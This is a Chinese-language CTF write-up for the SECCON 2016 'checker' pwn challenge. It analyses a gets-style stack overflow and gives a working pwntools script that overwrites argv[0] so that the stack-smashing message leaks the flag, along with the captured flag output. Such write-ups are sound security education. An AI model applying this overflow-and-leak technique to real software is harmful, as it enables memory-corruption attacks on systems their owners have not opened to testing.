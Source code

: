 ```yaml
---
title: '[SECCON CTF 2016 Quals] checker 300'
author: bruce30262
tags:
  - pwn
  - buffer overflow
  - SECCON CTF 2016
  - stack overflow
categories:
  - write-ups
date: 2016-12-15 22:02:00
---
```

## Info  
> Category: pwn
> Point: 300
> Author: bruce30262 @ BambooFox


## Analyzing
64 bit ELF, Full RELRO, 有 stack canary 和 NX , 沒 PIE.

程式很小，行為也很簡單:

```
$ ./checker 
Hello! What is your name?
NAME : 123

Do you know flag?
>> 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : asdf
You are a liar...
```
簡單來說就是程式會讀我們的 input，然後比對 flag 內容 ( 正確的 flag 內容會存在 `.bss` section )，之後印出比對的結果。

程式使用自製的函式 `getaline()` 來讀 user 的 input

```c getaline
while ( buf && read(0, &buf, 1uLL) )
{
    if ( buf == 10 )
      buf = 0;
    *(_BYTE *)(a1 + (signed int)v4++) = buf; // a1 = input buffer
}
```

可以看到 `getaline()` 就跟 `stdio.h` 裡面的 `gets()` 一樣，除非讀到換行，否則會一直讀下去，因此這是一個很明顯的 buffer overflow 漏洞。

```
$ ./checker
Hello! What is your name?
NAME : 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You are a liar...
*** stack smashing detected ***: ./checker terminated
[1]    70548 abort      ./checker
```

## Exploit

一開始想嘗試直接蓋 return address，但是因為有 canary 的關係使得這很難做到。直到看到程式印出 stack smash 的 error message 時，才突然想起可以直接蓋 `argv[0]`，將指向執行檔路徑的 char* pointer 改成存 flag 的 buffer address，之後觸發 `stack_chk_fail`，使程式印出 error message，進而 leak 出 flag 的內容:
```
*** stack smashing detected ***: [flag content] terminated
```

這邊要注意的是 `argv[0]` 原本是一個 stack address，長度為 6 個 byte，而 flag 的 buffer address 位於 `0x6010c0`，長度為 3 個 byte，因此在蓋 `argv[0]` 之前要先將 `argv[0]` 作清空的動作，否則之後印 error message 時會 crash 掉。

```python exp_checker.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "checker.pwn.seccon.jp"
PORT = 14726
ELF_PATH = "./checker"
LIBC_PATH = ""

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']

context.log_level = 'INFO'

elf = ELF(ELF_PATH)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    pad = 0x178

    r.sendlineafter(": ", "aaaa")
    
    # null out argv[0]
    for i in xrange(8,-1,-1):
        payload = "A"*pad + "B"*i
        r.sendlineafter(">> ", payload)
    
    r.sendlineafter(">> ", "yes")

    # overwrite argv[0] to flag buffer
    payload = "A"*pad + p64(0x6010c0)
    r.sendlineafter(": ", payload)
	
    r.interactive()

```

exploit 在本地端可以 work，但是之後送 remote 端時卻一直沒噴回 flag。本來以為是 padding 的問題，但是在做了一些測試之後斷定 padding 是正確的，input buffer 離 `argv[0]` 就是 376 個 byte。因此之後就是瘋狂的鬼打牆，不斷地送同樣的 payload 到 remote 端並祈禱 exploit 能夠 work。然後就在比賽結束前 3 分鐘，奇蹟發生了...
```
[+] Opening connection to checker.pwn.seccon.jp on port 14726: Done
You are a liar...
*** stack smashing detected ***: SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4} terminated
[*] Got EOF while reading in interactive
```

完全無法理解 XDDD ( 明明是一模一樣的 payload 啊 ! )
而且在這之後不管怎麼送就是不會 work，非常詭異

無論如何還是驚險地拿到了這 300 分 =w=

flag: `SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4}`


## Afterword 
之後 **mike** 在 trello 上有提到，如果 `0x6010c0` 是在回答 yes 之前蓋的話就會 work。或是把 `sendlineafter()` 改成 `sendline()`，之後一次 `recvall()` 也會噴回 flag。
至於詳細原因為何至今仍然無解......

